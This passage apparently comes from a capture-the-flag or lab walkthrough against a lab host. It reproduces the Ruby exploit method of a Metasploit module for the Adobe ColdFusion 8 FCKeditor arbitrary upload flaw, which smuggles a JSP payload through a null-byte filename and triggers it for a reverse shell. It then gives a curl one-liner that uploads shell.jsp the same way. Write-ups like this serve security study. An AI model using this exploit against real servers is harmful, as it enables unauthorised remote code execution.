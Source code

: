     
    
    def exploit
    
        page  = rand_text_alpha_upper(rand(10) + 1) + ".jsp"
    
        dbl = Rex::MIME::Message.new
        dbl.add_part(payload.encoded, "application/x-java-archive", nil, "form-data; name=\"newfile\"; filename=\"#{rand_text_alpha_upper(8)}.txt\"")
        file = dbl.to_s
        file.strip!
    
        print_status("Sending our POST request...")
    
        res = send_request_cgi(
            {
                'uri'           => "#{datastore['FCKEDITOR_DIR']}",
                'query'         => "Command=FileUpload&Type=File&CurrentFolder=/#{page}%00",
                'version'       => '1.1',
                'method'        => 'POST',
                'ctype'         => 'multipart/form-data; boundary=' + dbl.bound,
                'data'          => file,
                }, 5)
    
        if ( res and res.code == 200 and res.body =~ /OnUploadCompleted/ )
            print_status("Upload succeeded! Executing payload...")
    
            send_request_raw(
                {
                    # default path in Adobe ColdFusion 8.0.1.
                    'uri'           => '/userfiles/file/' + page,
                    'method'        => 'GET',
                    }, 5)
    
            handler
        else
            print_error("Upload Failed...")
            return
        end
    
    end
    

This is a relatively simply exploit - it makes two HTTP requests. First is a
POST to `FCKEDITOR_DIR`, which has a default value of
`/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm`
defined earlier in the script. Then it does a GET to `/userfiles/file/` to
trigger the payload.

#### Upload Reverse Shell

I can recreate this exploit with `curl`:

    
    
    root@kali# curl -X POST -F newfile=@shell.jsp 'http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00'
    